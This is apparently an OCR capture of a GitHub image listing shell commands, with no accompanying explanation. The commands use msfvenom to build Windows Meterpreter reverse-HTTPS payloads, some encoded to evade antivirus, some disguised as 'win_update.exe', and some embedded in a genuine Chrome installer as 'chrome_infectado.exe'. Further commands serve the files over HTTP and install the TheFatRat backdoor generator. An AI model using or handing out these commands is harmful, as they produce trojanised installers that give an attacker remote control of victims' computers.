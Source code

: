 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -o chrome_infectado.exe


msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x /caminho/completo/ChromeSetup.exe -o chrome_infectado.exe


msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && sudo ./setup.sh

wget https://dl.google.com/chrome/install/latest/chrome_installer.exe -O ChromeSetup.exe



